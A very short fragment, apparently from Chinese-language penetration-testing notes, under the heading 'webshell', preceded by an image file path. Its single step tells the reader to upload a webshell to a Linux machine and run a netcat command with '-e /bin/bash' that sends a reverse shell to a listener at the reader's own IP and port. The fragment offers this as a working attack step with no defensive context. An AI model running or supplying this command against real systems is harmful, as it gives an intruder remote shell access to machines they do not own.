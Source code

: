 ### webshell

1. 尝试将 Webshel​​l 上传到Linux机器，然后使用以下命令：nc <LOCAL-IP> <PORT> -e /bin/bash将反向 shell 发送回您自己计算机上等待的侦听器。
